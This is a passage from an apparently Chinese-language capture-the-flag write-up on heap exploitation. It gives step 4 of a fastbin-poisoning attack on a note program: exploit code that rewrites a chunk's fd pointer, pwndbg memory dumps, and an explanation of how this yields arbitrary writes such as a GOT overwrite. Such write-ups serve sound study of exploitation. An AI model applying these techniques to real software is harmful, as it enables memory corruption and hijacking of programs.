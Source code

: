 **STEP4**

```
edit_note(0, p64(heap + 0x80) + 'F' * 0x28)  # fastbin: chunk1->(heap+0x80)
add_note('G' * 0x30)
add_note('H' * 0x30)
raw_input("step4 success")
```

这里首先通过编辑0号节点(0号节点的内存实际指向的chunk1)，实际就是改写了chunk1的fd指针，fd本来指向18138a0，这里改成了heap+0x80，指向伪造堆头位置0x1812080，即前面提到的0x41处。实际上也就劫持了fastbin链表。接下来经过连续两次节点分配，这里第二个节点就被分配到了(heap+0x80)处。这里写的内容是'H'，实际上这里我们可以写任意内容，比如这里我们可以在note_list里伪造合法node节点，inuse设为1，指针指向我们想写的地址，就可以任意地址写，例如进一步改GOT表或栈指针，都可以成功利用。

此时查看内存布局如下：

```
pwndbg> x/gx 0x6020a0
0x6020a0 <list>:        0x0000000001812010
pwndbg> x/30gx 0x00000000001812010
0x1812010:      0x0000000000000100      0x0000000000000004
0x1812020:      0x0000000000000001      0x0000000000000030
0x1812030:      0x0000000001813870      0x0000000000000001
0x1812040:      0x0000000000000030      0x0000000001813870
0x1812050:      0x0000000000000001      0x0000000000000030
0x1812060:      0x0000000001812090      0x0000000000000001
0x1812070:      0x0000000000000030      0x00000000018138f0
0x1812080:      0x0000000000000001      0x0000000000000041    # 成功将内存分配在此处，并改写了此处内存
0x1812090:      0x4848484848484848      0x4848484848484848
0x18120a0:      0x4848484848484848      0x4848484848484848
0x18120b0:      0x4848484848484848      0x0048484848484848
0x18120c0:      0x0000000000000000      0x0000000000000000
pwndbg> x/50gx 0x000000001813830-0x10
0x1813820:      0x0000000000000000      0x0000000000000041
0x1813830:      0x0000000000000000      0x4141414141414141
0x1813840:      0x4141414141414141      0x4141414141414141
0x1813850:      0x4141414141414141      0x0041414141414141
0x1813860:      0x0000000000000000      0x0000000000000041
0x1813870:      0x4747474747474747      0x4747474747474747
0x1813880:      0x4747474747474747      0x4747474747474747
0x1813890:      0x4747474747474747      0x0047474747474747
0x18138a0:      0x0000000000000000      0x0000000000000041
0x18138b0:      0x0000000001813820      0x4343434343434343
0x18138c0:      0x4343434343434343      0x4343434343434343
0x18138d0:      0x4343434343434343      0x0043434343434343
0x18138e0:      0x0000000000000000      0x0000000000000041
0x18138f0:      0x4444444444444444      0x4444444444444444
0x1813900:      0x4444444444444444      0x4444444444444444
0x1813910:      0x4444444444444444      0x0044444444444444
0x1813920:      0x0000000000000000      0x0000000000000051
0x1813930:      0x4545454545454545      0x4545454545454545
0x1813940:      0x4545454545454545      0x4545454545454545
0x1813950:      0x4545454545454545      0x4545454545454545
0x1813960:      0x4545454545454545      0x4545454545454545
0x1813970:      0x0000000000000000      0x0000000000020691
0x1813980:      0x0000000000000000      0x0000000000000000
```
